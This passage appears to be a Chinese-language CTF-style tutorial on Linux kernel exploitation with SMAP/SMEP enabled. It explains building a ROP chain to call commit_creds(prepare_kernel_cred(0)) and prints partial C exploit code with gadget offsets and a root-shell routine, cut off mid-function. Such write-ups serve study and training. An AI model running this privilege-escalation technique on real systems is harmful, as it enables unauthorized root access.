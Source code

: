 
### level1 开启 SMAP/SMEP

> 此时 ret2user 失效，内核态不再能执行用户态代码，那么就需要去找内核中的 gadget 来执行 rop，因为没有开启 kaslr，找到构造出链子即可

使用 ROPgadget 或者 objdump 来找到gadget ，去执行 commit_creds(prepare_kernel_cred(0)) 

这里将 rax 转化为 rdi 的 gadget 就花样百出了，不过也可以从其中找到有用的，比如下面的 gadget 。

```c
mov rdi, rax ; jne 0xffffffff8166fe73 ; pop rbx ; pop rbp ; ret
```

这条 gadget 前面很符合要求 ，但是后面有一个跳转，我们可以在这之前执行一个 cmp 将 flag 标志位变成不符合跳转要求的情况，这样就能正常继续进入我们的控制流。

##### exp

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <signal.h>

void get_shell();

size_t vmlinux_base = 0xffffffff81000000;
size_t user_cs, user_ss, user_rflags, user_sp;

size_t commit_creds = 0x4c6410;
size_t prepare_kernel_cred = 0x4c67f0;
size_t pop_rdi_ret = 0x6370;
size_t pop_rdx_ret = 0x7616;
size_t pop_rcx_ret = 0x5f4bbc;
size_t pop_rbp_ret = 0x424;
size_t mov_rdi_rax_jne_pop2_ret = 0x66fea3;
size_t cmp_rdx_jne_pop2_ret = 0x964cc4;
size_t swapgs_pop_rbp_ret = 0xa55f;
size_t iretq_ret = 0xc0d9;


void info(char *s , size_t address ){
    if (address) printf("\033[32m\033[1m[Info] %s : \033[0m%#lx\n", s, address);
    else printf("\033[32m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void shell(){
    if (getuid()){
        error("Failed to get root");
        exit(0);
    }
    info("Get root!",0);
    execl("/bin/sh","sh",NULL);
}

void save_status(){
    __asm__(
        ".intel_syntax noprefix;"
```